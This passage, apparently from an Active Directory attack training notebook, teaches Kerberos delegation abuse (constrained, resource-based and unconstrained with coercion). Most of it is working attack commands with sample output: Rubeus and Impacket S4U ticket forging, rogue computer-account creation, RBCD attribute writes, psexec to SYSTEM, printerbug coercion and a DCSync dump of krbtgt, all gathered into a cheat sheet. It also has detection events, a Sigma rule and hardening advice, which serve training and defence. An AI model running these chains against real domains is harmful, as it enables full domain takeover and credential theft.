Rubeus.exe s4u /user:SVC-SQL$ /rc4:<NThash_of_SVC-SQL> /impersonateuser:Administrator ^
  /msdsspn:MSSQLSvc/sql01.corp.local:1433 /ptt
```

- `/user` + `/rc4` (or `/aes256`) — authenticate as the delegation account.
- `/impersonateuser:Administrator` — the identity to forge into the PAC (must not be `NOT_DELEGATED`/Protected Users).
- `/msdsspn:MSSQLSvc/...` — the service in the account's allowed list (S4U2Proxy target).
- `/ptt` — inject the final ticket straight into your session.

Realistic output (trimmed):

```
[*] Action: S4U
[*] Using rc4_hmac hash: ...
[*] Building AS-REQ (w/ preauth) for: 'corp.local\SVC-SQL$'
[+] TGT request successful!
[*] Action: S4U2Self
[*] Got a TGS for 'Administrator' to 'SVC-SQL$@CORP.LOCAL'
[*] Action: S4U2Proxy
[*] Sending S4U2proxy request for service 'MSSQLSvc/sql01.corp.local:1433'
[+] S4U2proxy success!
[+] Ticket successfully imported!
```

**The alternate-service-name trick.** SQL alone might be low value; you want a shell. Add `/altservice` to rewrite the service class on the *same host* — the ticket is still valid because every SPN on `sql01` shares `SQL01$`'s key:

```powershell
Rubeus.exe s4u /user:SVC-SQL$ /rc4:<hash> /impersonateuser:Administrator ^
  /msdsspn:MSSQLSvc/sql01.corp.local /altservice:CIFS,HOST,HTTP /ptt
```

Now `klist` shows `CIFS/sql01.corp.local` as `Administrator`, and:

```powershell
dir \\sql01.corp.local\C$
# or code exec:
.\PsExec.exe \\sql01.corp.local cmd
```

### On Linux with Impacket getST.py

`getST.py` ("get service ticket") is Impacket's S4U engine — the Rubeus `s4u` equivalent. It writes a `.ccache` you then point tools at via `KRB5CCNAME`.

```bash
# Constrained delegation w/ protocol transition, impersonate Administrator to MSSQLSvc, then use CIFS via -altservice
getST.py -spn 'MSSQLSvc/sql01.corp.local:1433' -impersonate Administrator \
  -altservice 'CIFS' -hashes :<NThash_of_SVC-SQL> 'corp.local/SVC-SQL$'
```

```
Impacket v0.12.0 - Copyright Fortra, LLC
[*] Getting TGT for user
[*] Impersonating Administrator
[*]  Requesting S4U2self
[*]  Requesting S4U2Proxy
[*] Saving ticket in Administrator@CIFS_sql01.corp.local@CORP.LOCAL.ccache
```

```bash
export KRB5CCNAME=Administrator@CIFS_sql01.corp.local@CORP.LOCAL.ccache
smbexec.py -k -no-pass corp.local/Administrator@sql01.corp.local
# or
psexec.py -k -no-pass corp.local/Administrator@sql01.corp.local
```

`-k` tells Impacket to use Kerberos from the ccache; `-no-pass` because we have a ticket, not a password.

### The DC-delegation jackpot

If a machine account is allowed to delegate to *any* service on a **Domain Controller** (e.g. `FS02$` → `TIME/dc01.corp.local`), the alternate-service trick lets you request `LDAP/dc01.corp.local` as `Administrator`, and an `LDAP/DC` ticket as a Domain Admin is a **DCSync**:

```bash
getST.py -spn 'TIME/dc01.corp.local' -altservice 'LDAP' -impersonate Administrator \
  -hashes :<NThash_of_FS02$> 'corp.local/FS02$'
export KRB5CCNAME=Administrator@LDAP_dc01.corp.local@CORP.LOCAL.ccache
secretsdump.py -k -no-pass corp.local/Administrator@dc01.corp.local -just-dc-user krbtgt
```

That is constrained delegation on a single file server turning into full domain compromise.

## Part 8: Resource-Based Constrained Delegation (RBCD) — The Modern Workhorse

RBCD (Windows Server 2012+) flips the direction of trust. Instead of a domain admin configuring "`SVC-SQL` may delegate to SQL" on the *source*, the **resource owner** configures "these accounts may delegate to *me*" on the *target*, in the attribute **`msDS-AllowedToActOnBehalfOfOtherIdentity`** (a binary `O:...D:...` security descriptor listing allowed source SIDs). Why attackers love it:

1. **The permission is a single writable attribute on the target.** If you can write to a computer object — `GenericWrite`, `GenericAll`, `WriteDACL`, `WriteAccountRestrictions`, or `Owns` (all common ACL findings BloodHound surfaces) — you can populate this attribute yourself. No domain admin needed.
2. **You supply the source.** You point it at a computer account **you control**. If you do not already control one, you *create* one, because by default **`ms-DS-MachineAccountQuota` = 10**, letting any authenticated user join up to ten computers to the domain. You now own that account's password, so you can S4U with it freely.
3. **No protocol-transition flag needed on your account** and the forwardable-ticket limitation does not bite, because you own the source computer fully.

The full chain: **create (or take over) a computer account → write `msDS-AllowedToActOnBehalfOfOtherIdentity` on the target to trust your computer → S4U2Self+S4U2Proxy as your computer, impersonating `Administrator`, to a service on the target → SYSTEM on the target.**



### Step 1 — Create a computer account

**PowerMad (Windows, from scratch).** PowerMad is a PowerShell tool whose `New-MachineAccount` function joins a new computer using only a standard user's rights (thanks to MachineAccountQuota).

```powershell
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString 'FakePass123!' -AsPlainText -Force)
```

**Impacket addcomputer.py (Linux, from scratch).**

```bash
addcomputer.py -computer-name 'FAKE01$' -computer-pass 'FakePass123!' \
  -dc-ip 10.10.10.10 'corp.local/jdoe:Summer2026!'
```

```
[*] Impacket v0.12.0 - Copyright Fortra, LLC
[*] Successfully added machine account FAKE01$ with password FakePass123!.
```

If MachineAccountQuota is 0 (a common hardening step — good on them), you instead need to already control a computer account, or take over one via another primitive. `SeMachineAccountQuota` can also be checked with `netexec ldap <dc> -u jdoe -p pass -M maq`.

### Step 2 — Write the RBCD attribute on the target

You need write access to `DB03$` (established via BloodHound: you have `GenericWrite`/`GenericAll`/`Owns` on it).

**Impacket rbcd.py (Linux, from scratch).** Purpose-built: reads, writes, and clears `msDS-AllowedToActOnBehalfOfOtherIdentity` and handles the security-descriptor encoding for you.

```bash
# Grant: FAKE01$ may delegate to DB03$
rbcd.py -delegate-from 'FAKE01$' -delegate-to 'DB03$' -action write \
  -dc-ip 10.10.10.10 'corp.local/jdoe:Summer2026!'
```

```
[*] Impacket v0.12.0 - Copyright Fortra, LLC
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] FAKE01$ can now impersonate users on DB03$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     FAKE01$   (S-1-5-21-...-1123)
```

**bloodyAD (Linux, cleaner LDAP writes).**

```bash
bloodyAD -u jdoe -p 'Summer2026!' -d corp.local --host 10.10.10.10 \
  add rbcd 'DB03$' 'FAKE01$'
```

**PowerView (Windows).** Build the descriptor and write it:

```powershell
$sid = (Get-DomainComputer FAKE01 -Properties objectsid).objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;GA;;;$sid)"
$bytes = New-Object byte[] ($SD.BinaryLength); $SD.GetBinaryForm($bytes,0)
Get-DomainComputer DB03 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$bytes}
```

### Step 3 — S4U and get a shell

**Linux (getST.py).** First get FAKE01$'s hash from its password (or pass the password with `-dc-ip`), then S4U:

```bash
getST.py -spn 'CIFS/db03.corp.local' -impersonate Administrator \
  -dc-ip 10.10.10.10 'corp.local/FAKE01$:FakePass123!'
```

```
[*] Getting TGT for user
[*] Impersonating Administrator
[*]  Requesting S4U2self
[*]  Requesting S4U2Proxy
[*] Saving ticket in Administrator@CIFS_db03.corp.local@CORP.LOCAL.ccache
```

```bash
export KRB5CCNAME=Administrator@CIFS_db03.corp.local@CORP.LOCAL.ccache
psexec.py -k -no-pass corp.local/Administrator@db03.corp.local
# NT AUTHORITY\SYSTEM on DB03
```

**Windows (Rubeus).** Compute FAKE01$'s AES/RC4 key from its password with `Rubeus hash`, then:

```powershell
Rubeus.exe hash /password:FakePass123! /user:FAKE01$ /domain:corp.local
# take the rc4/aes256 output, then:
Rubeus.exe s4u /user:FAKE01$ /aes256:<key> /impersonateuser:Administrator ^
  /msdsspn:CIFS/db03.corp.local /ptt
dir \\db03.corp.local\C$
```

### The all-in-one: NetExec `--delegate`

Modern NetExec can drive the whole RBCD chain in one command against a target you can write to:

```bash
netexec smb db03.corp.local -u jdoe -p 'Summer2026!' \
  --delegate Administrator --self  # abuses configured RBCD to run as Administrator
```

Understanding the manual steps first is essential — the one-liner hides exactly the pieces (MachineAccountQuota, the descriptor, S4U) that you must reason about when something fails or when you want to be quiet.

## Part 9: RBCD Variations, Edge Cases, and Real-World Quirks

- **Cleanup / OPSEC:** always restore the target after the engagement — `rbcd.py -action flush` clears the attribute; delete the machine account you created (`addcomputer.py -delete`). Leaving RBCD configured on a DC is both a liability and a giant detection flag.
- **`ms-DS-MachineAccountQuota = 0`:** you cannot create a computer. Alternatives: (a) take over an existing computer account whose password you can reset (BloodHound `ForceChangePassword`/`GenericAll` on a computer), (b) use a *user* account you control as the delegate-from principal — RBCD accepts any account with an SPN, and you can add an SPN to a user you control (`AddKeyCredentialLink` / Shadow Credentials pairs beautifully here), or (c) find another privilege.
- **Shadow Credentials synergy:** if you have `GenericWrite`/`GenericAll` on the target you can *also* just do **Shadow Credentials** (write `msDS-KeyCredentialLink`, authenticate via PKINIT with a cert you generate — pyWhisker/Whisker/`certipy shadow`) which gets you the target's TGT/NT hash directly, often simpler than RBCD. Know both; pick per situation. RBCD needs a second computer account but no PKINIT; Shadow Creds needs PKINIT (a functioning AD CS/`msDS-KeyCredentialLink` support) but no second account.
- **RBCD to yourself is pointless; RBCD to a DC is domain compromise.** Impersonating `Administrator` to `CIFS/DC01` = SYSTEM on a DC = DCSync/NTDS. That is the highest-value RBCD target.
- **The impersonated user must be delegatable.** If `Administrator` is in **Protected Users** or flagged sensitive, pick another admin. Enumerate first:

```bash
# Members of Protected Users are NOT impersonatable — avoid them
netexec ldap 10.10.10.10 -u jdoe -p pass \
  --query "(memberOf=CN=Protected Users,CN=Users,DC=corp,DC=local)" "sAMAccountName"
```

- **Cross-domain:** RBCD works within a domain cleanly; across trusts it is constrained by SID filtering and is far fiddlier — treat intra-domain as the default.

### RBCD as a *local* privilege-escalation primitive (the "KrbRelayUp" pattern)

RBCD is not only a lateral-movement tool — it underpins one of the cleanest **local** SYSTEM escalations on a domain-joined workstation. The insight: a machine can be made to configure RBCD *on itself*. If you can (a) create a computer account (MAQ) and (b) relay or coerce the local machine's own authentication into an LDAP write of `msDS-AllowedToActOnBehalfOfOtherIdentity` on its own object, you can then S4U as `Administrator` to `HOST/thismachine` and spawn SYSTEM. This is the essence of the **KrbRelayUp** technique (a packaging of KrbRelay + RBCD by Dec0ne), and it is why RBCD matters even when you already have a foothold — it converts a normal domain user session on a workstation into local SYSTEM without a kernel exploit:

```text
Low-priv user on WS01 (domain-joined)
   → create FAKE01$ (MAQ)
   → KrbRelay: relay WS01$'s Kerberos auth to LDAP on the DC
   → write RBCD on WS01$ = FAKE01$
   → getST/s4u as Administrator to HOST/ws01
   → SYSTEM on WS01
```

**Blue team usage:** the same detections apply — a `5136` write of the RBCD attribute where the *subject* is the computer modifying *itself*, plus an unexpected local `4624`/service creation, is the signature. Setting **MachineAccountQuota=0** breaks step one and defeats the whole class.

### S4U2Self on its own — a sneaky local-auth trick

Even without S4U2Proxy rights, a service account you control can call **S4U2Self alone** to mint a ticket *to itself* as any user. That ticket is not usable elsewhere, but if the service in question makes *local* authorization decisions from the PAC (e.g., a custom app, or `CIFS` on the very host the account represents), S4U2Self can grant local access as a privileged user. Rubeus does this with `s4u /self`:

```powershell
Rubeus.exe s4u /user:WS01$ /aes256:<key> /impersonateuser:Administrator /self ^
  /altservice:HOST/ws01.corp.local /ptt
```

This is exactly the last step of the KrbRelayUp chain above and a reminder that S4U2Self is a primitive in its own right, not just the first half of constrained delegation.

## Part 10: Putting the Three Together — A Delegation Decision Tree

When you land a credential, run this triage. It maps what you have to which family to try.



| Situation you're in | Best family | One-line why |
|---|---|---|
| Local admin on a non-DC unconstrained host | Unconstrained + coercion | Harvest DC$ TGT directly |
| Cracked a service account w/ `msDS-AllowedToDelegateTo` + transition | Constrained | S4U as Administrator to its allowed SPN, altservice to a shell |
| You have write/own over a server or DC computer object | RBCD | Write one attribute, S4U to SYSTEM |
| `msDS-AllowedToDelegateTo` set but Kerberos-only (no transition) | Constrained (limited) | Only works if you can capture a real forwarded ticket |
| MachineAccountQuota = 0 but you have GenericWrite on the target | RBCD via Shadow Creds / existing acct | Sidestep computer creation |

## Part 11: Detection & Defense Angle

Delegation abuse is detectable at three layers: the **directory change** that sets it up, the **Kerberos events** the KDC logs, and the **anomalous logon** at the target. Consolidate monitoring across all three.

### Directory-level (the setup)

- **Event ID 5136** (Directory Service Changes — requires a SACL on the object) fires when `msDS-AllowedToActOnBehalfOfOtherIdentity`, `msDS-AllowedToDelegateTo`, or the delegation UAC bits change. **Alert on any modification of `msDS-AllowedToActOnBehalfOfOtherIdentity` — legitimate RBCD changes are rare and planned.** A change made by a low-privileged user or a computer account is a near-certain attack.
- **Event ID 4741 / 4742** — a computer account was **created / changed**. A computer created by a normal user (RBCD step 1) is highly suspicious; baseline who legitimately joins machines.
- **BloodHound / continuous ACL audit** — hunt for non-Tier-0 principals with `GenericWrite`/`WriteDACL`/`Owns` over computers (RBCD preconditions) and for any `AllowedToDelegate` edges. Sigma-style directory hunts catch the misconfiguration *before* exploitation.

### Kerberos-level (the S4U itself)

- **Event ID 4769** (a Kerberos service ticket was requested) is logged on the DC for S4U2Proxy. The tell of S4U abuse: a `4769` where the **"Transited Services"** field is populated (S4U2Proxy transits the source service) and the account requesting is a machine/service account impersonating a *different, high-value* user. A `4769` for `Administrator` targeting `CIFS/DC01` requested by `FAKE01$` is a screaming anomaly.
- **Event ID 4768** (TGT requested) spikes when tools mint TGTs for created accounts.
- **RC4 downgrade** — S4U tooling often requests `RC4 (0x17)` tickets; environments that are AES-only should alert on RC4 ticket requests (`4769`/`4768` with encryption type `0x17`).

### Target-level (the payoff)

- **Event ID 4624** logon on the target where the account is an unexpected computer account (`FAKE01$`) or where a Domain Admin "logs on" from a host they have never used — the tail end of the impersonation. For unconstrained: a **`DC01$` logon (4624) on a non-DC** member server is the coercion payoff and is almost never legitimate.

### Sigma-style detection sketch

```yaml
title: RBCD Attribute Modified on Computer Object
logsource: { product: windows, service: security }
detection:
  selection:
    EventID: 5136
    AttributeLDAPDisplayName: 'msDS-AllowedToActOnBehalfOfOtherIdentity'
  condition: selection
level: high
```

### Hardening (structural fixes, in priority order)

1. **Eliminate unconstrained delegation** on everything except (unavoidably) DCs. Migrate to constrained or RBCD, or remove entirely.
2. **Protect Tier-0.** Put all privileged accounts in **Protected Users** and set **"Account is sensitive and cannot be delegated"** (`NOT_DELEGATED`). This alone defeats impersonation of those users through *every* delegation family — it is the highest-leverage single control.
3. **Set `ms-DS-MachineAccountQuota = 0`** so ordinary users cannot create the computer accounts that RBCD (and other attacks) rely on. Delegate machine-join to a controlled group instead.
4. **Disable the Print Spooler** on DCs/servers and patch EFSRPC/DFS to blunt coercion.
5. **Enforce AES**, monitor RC4 ticket requests, and enable **Kerberos Armoring (FAST)** where possible.
6. **Least privilege on computer objects** — audit and strip `GenericWrite`/`WriteDACL`/`Owns` held by non-admins, which are the RBCD preconditions.

**IR use case:** on suspected delegation compromise, pull `5136` for the delegation attributes, `4741/4742` for rogue computer creations, and `4769` with populated Transited Services; correlate to the target `4624`. Rotate `krbtgt` twice if a DC TGT or DCSync is suspected (Chapter 7), and remove the malicious RBCD/DelegateTo entries and any attacker-created machine accounts.

## Part 12: Full Worked Lab — MachineAccountQuota → RBCD → SYSTEM on a Server, plus Unconstrained → DC

This lab assumes a lab you built (Part 13) with `DC01` (10.10.10.10, `corp.local`), a member server `DB03` you have `GenericWrite` over (via a prior ACL win), and a low-priv credential `corp.local/jdoe:Summer2026!`. Attacker box is Kali with Impacket 0.12+.

### 12.1 — Triage delegation

```bash
findDelegation.py corp.local/jdoe:'Summer2026!' -dc-ip 10.10.10.10
```
```
AccountName  AccountType  DelegationType             DelegationRightsTo
-----------  -----------  -------------------------  ------------------
WEB01$       Computer     Unconstrained              N/A
```
BloodHound confirms `jdoe` → `GenericWrite` → `DB03$`. Two paths present: RBCD via `DB03$`, and unconstrained via `WEB01`.

### 12.2 — Confirm MachineAccountQuota

```bash
netexec ldap 10.10.10.10 -u jdoe -p 'Summer2026!' -M maq
```
```
MAQ         10.10.10.10   389    DC01   [*] Getting the MachineAccountQuota
MAQ         10.10.10.10   389    DC01   MachineAccountQuota: 10
```

### 12.3 — Create a computer account

```bash
addcomputer.py -computer-name 'FAKE01$' -computer-pass 'FakePass123!' \
  -dc-ip 10.10.10.10 'corp.local/jdoe:Summer2026!'
```
```
[*] Successfully added machine account FAKE01$ with password FakePass123!.
```

### 12.4 — Write RBCD on DB03$

```bash
rbcd.py -delegate-from 'FAKE01$' -delegate-to 'DB03$' -action write \
  -dc-ip 10.10.10.10 'corp.local/jdoe:Summer2026!'
```
```
[*] Delegation rights modified successfully!
[*] FAKE01$ can now impersonate users on DB03$ via S4U2Proxy
```

Check `Administrator` is delegatable (not Protected Users):
```bash
netexec ldap 10.10.10.10 -u jdoe -p 'Summer2026!' \
  --query "(sAMAccountName=Administrator)" "userAccountControl"
# UAC does NOT contain NOT_DELEGATED (0x100000) → good to go
```

### 12.5 — S4U to a CIFS ticket as Administrator

```bash
getST.py -spn 'CIFS/db03.corp.local' -impersonate Administrator \
  -dc-ip 10.10.10.10 'corp.local/FAKE01$:FakePass123!'
```
```
[*] Getting TGT for user
[*] Impersonating Administrator
[*]  Requesting S4U2self
[*]  Requesting S4U2Proxy
[*] Saving ticket in Administrator@CIFS_db03.corp.local@CORP.LOCAL.ccache
```

### 12.6 — Use it → SYSTEM on DB03

```bash
export KRB5CCNAME=Administrator@CIFS_db03.corp.local@CORP.LOCAL.ccache
psexec.py -k -no-pass corp.local/Administrator@db03.corp.local
```
```
[*] Requesting shares on db03.corp.local.....
[*] Found writable share ADMIN$
[*] Uploading file kExWpQ.exe
[*] Opening SVCManager on db03.corp.local.....
[*] Creating service ...
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.1]
C:\Windows\system32> whoami
nt authority\system
```

### 12.7 — Unconstrained path (parallel) → DC compromise

On `WEB01` (assume you are local admin there via a separate win), start monitoring; from Kali, coerce the DC:

```powershell
# On WEB01
Rubeus.exe monitor /interval:5 /nowrap
```
```bash
# On Kali — force DC01$ to authenticate to WEB01
printerbug.py corp.local/jdoe:'Summer2026!'@10.10.10.10 web01.corp.local
```
Rubeus prints `DC01$`'s TGT; inject and DCSync:
```powershell
Rubeus.exe ptt /ticket:doIF...<DC01$ TGT>...
```
```bash
# with the DC01$ ticket, DCSync krbtgt
secretsdump.py -k -no-pass corp.local/DC01\$@dc01.corp.local -just-dc-user krbtgt
```
```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1a2b3c...:::
```
That `krbtgt` hash is a Golden Ticket (Chapter 6) and permanent domain persistence.

### 12.8 — Cleanup

```bash
rbcd.py -delegate-from 'FAKE01$' -delegate-to 'DB03$' -action flush -dc-ip 10.10.10.10 'corp.local/jdoe:Summer2026!'
addcomputer.py -computer-name 'FAKE01$' -delete -dc-ip 10.10.10.10 'corp.local/jdoe:Summer2026!'
```

## Part 13: Practice Labs & Resources

Train each family on purpose-built targets:

- **TryHackMe** — *"Attacktive Directory"* (Kerberos + Impacket workflow foundation), *"Enterprise"* and *"Reset"* (delegation-heavy chains). The *"Post Exploitation"* and *"Persisting Active Directory"* rooms reinforce the DCSync payoff.
- **HackTheBox** — machines built around delegation: *"Sizzle"* (constrained delegation + certs), *"Multimaster"*, *"Intelligence"* (RBCD via computer creation and `ReadGMSAPassword`), *"Forest"* and *"Sauna"* (broader AD chains ending near delegation/DCSync). HTB **ProLabs** *Dante/Zephyr/RastaLabs* string these into full networks.
- **HackTheBox Academy** — the *"Kerberos Attacks"*, *"Active Directory Enumeration & Attacks"*, and *"Resource-Based Constrained Delegation"* modules walk the exact `getST.py`/`rbcd.py` flows.
- **Build your own** — a Windows Server DC + one member server + one workstation in VirtualBox/Proxmox; enable unconstrained on the member, set an ACL giving a low-priv user `GenericWrite` on another computer, and reproduce Part 12. **GOAD (Game of Active Directory)** and **BadBlood** seed a domain with delegation misconfigs automatically — the fastest way to a realistic lab.
- **Reading** — Elad Shamir's *"Wagging the Dog"* (the definitive RBCD/S4U writeup), the SpecterOps Rubeus docs, and the Impacket `examples/` for `getST.py`, `rbcd.py`, `addcomputer.py`, `findDelegation.py`.

## Part 14: Final Revision / Summary

- **Delegation = a service acting in a user's name toward a second service** (the "double hop"). Three families, three trust locations: source-flagged (unconstrained), source-listed (`msDS-AllowedToDelegateTo`, constrained), target-listed (`msDS-AllowedToActOnBehalfOfOtherIdentity`, RBCD).
- **Unconstrained** caches full user TGTs in LSASS on the flagged host. Steal them (`Rubeus monitor/dump`). Combined with **coercion** (printerbug/PetitPotam) to force a DC to authenticate, you harvest `DC01$`'s TGT and DCSync — full domain compromise.
- **S4U2Self + S4U2Proxy** are the engine of constrained and RBCD. S4U2Self forges a ticket *as any user* to your own service; S4U2Proxy converts it to a ticket for a second service, still as that user. The PAC is genuine, so impersonating `Administrator` yields real DA access.
- **Protocol transition** (`TRUSTED_TO_AUTH_FOR_DELEGATION`) is what makes constrained delegation abuse work against arbitrary users; without it you need a real forwarded ticket. RBCD sidesteps this because you own the source computer.
- **The alternate-service-name trick** means "constrained to `TIME/dc01`" is effectively "constrained to *everything* on dc01" — including `LDAP/` (DCSync) and `CIFS/`/`HOST/` (shell).
- **RBCD** is the modern workhorse: one writable attribute on a target + a computer account you create (MachineAccountQuota=10) = SYSTEM on that target. BloodHound's `GenericWrite`/`Owns`/`WriteDACL` → Computer edges are your finder.
- **The single best defence** is putting Tier-0 accounts in **Protected Users** + "sensitive and cannot be delegated," setting **MachineAccountQuota=0**, and **eliminating unconstrained delegation**. Detection centres on **5136** (RBCD attribute writes), **4741/4742** (rogue computer creation), **4769 with Transited Services** (S4U2Proxy), and anomalous **4624** logons (esp. `DC01$` on a non-DC).

## Part 15: Cheat Sheet / Quick Reference

**Enumerate**
```bash
findDelegation.py corp.local/user:pass -dc-ip DC              # all delegation, classified
# Unconstrained (LDAP bit): (userAccountControl:1.2.840.113556.1.4.803:=524288)
# Protocol transition:      (userAccountControl:1.2.840.113556.1.4.803:=16777216)
# Constrained:              (msDS-AllowedToDelegateTo=*)
# RBCD configured:          (msDS-AllowedToActOnBehalfOfOtherIdentity=*)
netexec ldap DC -u user -p pass -M maq                        # MachineAccountQuota
```
```powershell
Get-DomainComputer -Unconstrained; Get-DomainUser -TrustedToAuth   # PowerView
```
BloodHound: `MATCH p=(n {owned:true})-[:GenericWrite|GenericAll|WriteDacl|Owns]->(c:Computer) RETURN p`

**Unconstrained (+ coercion)**
```powershell
Rubeus.exe monitor /interval:5 /nowrap        # harvest TGTs on the unconstrained host
Rubeus.exe ptt /ticket:<b64>                  # inject stolen TGT
```
```bash
printerbug.py corp.local/user:pass@VICTIM  LISTENER
PetitPotam.py -u user -p pass -d corp.local LISTENER VICTIM
```

**Constrained (S4U + altservice)**
```powershell
Rubeus.exe s4u /user:SVC$ /rc4:HASH /impersonateuser:Administrator ^
  /msdsspn:MSSQLSvc/sql01.corp.local /altservice:CIFS,HOST,LDAP /ptt
```
```bash
getST.py -spn 'TIME/dc01.corp.local' -altservice 'LDAP' -impersonate Administrator \
  -hashes :HASH 'corp.local/FS02$'
```

**RBCD (full chain)**
```bash
addcomputer.py -computer-name 'FAKE01$' -computer-pass 'FakePass123!' -dc-ip DC 'corp.local/user:pass'
rbcd.py -delegate-from 'FAKE01$' -delegate-to 'DB03$' -action write -dc-ip DC 'corp.local/user:pass'
getST.py -spn 'CIFS/db03.corp.local' -impersonate Administrator -dc-ip DC 'corp.local/FAKE01$:FakePass123!'
export KRB5CCNAME=Administrator@CIFS_db03.corp.local@CORP.LOCAL.ccache
psexec.py -k -no-pass corp.local/Administrator@db03.corp.local
# cleanup:
rbcd.py ... -action flush ; addcomputer.py -computer-name 'FAKE01$' -delete ...
```

**Key flags / bits**

| Item | Value | Meaning |
|---|---|---|
| `TRUSTED_FOR_DELEGATION` | UAC `0x80000` | Unconstrained |
| `TRUSTED_TO_AUTH_FOR_DELEGATION` | UAC `0x1000000` | Protocol transition |
| `NOT_DELEGATED` | UAC `0x100000` | "Sensitive; cannot be delegated" (defence) |
| `msDS-AllowedToDelegateTo` | attribute | Constrained SPN list (on source) |
| `msDS-AllowedToActOnBehalfOfOtherIdentity` | attribute | RBCD ACL (on target) |
| `ms-DS-MachineAccountQuota` | default `10` | Computers a user may create |
| LDAP bit-AND OID | `1.2.840.113556.1.4.803` | Query a UAC bit |

**Detection quick list:** 5136 (RBCD/DelegateTo write), 4741/4742 (computer create/change), 4769 (S4U2Proxy, Transited Services set, RC4), 4624 (`DC01$`/DA on unexpected host).

## Part 16: Common Pitfalls

- **Forgetting `/nowrap`** in Rubeus → line-wrapped base64 that fails to `ptt`. Always `/nowrap`.
- **Impersonating a Protected / sensitive user** and blaming the tool when S4U2Proxy fails — check `NOT_DELEGATED` and Protected Users membership first; pick a delegatable admin.
- **Kerberos-only constrained delegation** (no protocol transition): S4U2Self returns a *non-forwardable* ticket and S4U2Proxy for arbitrary users fails. You need protocol transition or a captured forwarded ticket. RBCD avoids this.
- **Clock skew** — Kerberos rejects tickets when attacker/DC clocks differ by >5 min. `sudo ntpdate dc01.corp.local` (or `sudo rdate -n <DC>`) before S4U on Linux.
- **Wrong realm / case** — `KRB5CCNAME` and SPN realm must match (usually UPPERCASE realm, e.g. `CORP.LOCAL`). Impacket is picky; use FQDNs, not IPs, for the `-spn` host.
- **MachineAccountQuota = 0** — `addcomputer.py` fails with `STATUS_ACCESS_DENIED`; pivot to Shadow Credentials or an existing computer account.
- **Leaving artefacts** — un-flushed RBCD and orphaned `FAKE01$` accounts are both loud detections and engagement-hygiene failures. Clean up.
- **Coercing over a patched path** — if Spooler is disabled and EFSRPC patched, printerbug/PetitPotam fail; rotate through `coercer`'s DFS/FSRVP methods.

## Part 17: Practice Questions & Labs

1. **Explain, in terms of forwardable tickets, why RBCD works reliably for arbitrary-user impersonation while Kerberos-only constrained delegation does not.** (Answer hinges on: you fully control the source computer account in RBCD, so you obtain a usable forwardable S4U2Self ticket; Kerberos-only constrained lacks protocol transition, so S4U2Self is non-forwardable.)
2. **Lab:** In GOAD or your own lab, configure `FS02$` to be constrained-delegate to `TIME/dc01` *with* protocol transition. Using only `getST.py`, obtain a `secretsdump.py -just-dc-user krbtgt` via the alternate-service trick. Which `-altservice` value did you use and why?
3. **Lab:** Grant a low-priv user `GenericWrite` on a member server, set MachineAccountQuota=10, and reproduce the full RBCD chain to SYSTEM. Capture the `5136`, `4741`, and `4769` events on the DC and write a Sigma rule that would have caught it.
4. **Detection question:** A `4624` shows `DC01$` logging on to member server `WEB01`. Why is this almost always malicious, what delegation attack does it indicate, and what two events on the DC would corroborate the coercion that caused it?
5. **Hardening exercise:** You inherit a domain with three non-DC hosts flagged for unconstrained delegation and MachineAccountQuota=10. List, in priority order, the exact changes you would make and the single control that most reduces impersonation risk across *all three* delegation families. (Expected: Protected Users + "sensitive and cannot be delegated" on Tier-0; then remove unconstrained; then MAQ=0.)

Delegation is where a boring feature and a single misconfigured attribute become Domain Admin. Master the S4U mechanics and the three trust locations, and you will both find the shortest path to domain compromise on offence and shut it before it is walked on defence. The next chapter continues the Active Directory attack notebook by building on the domain-dominance and delegation primitives you now hold.
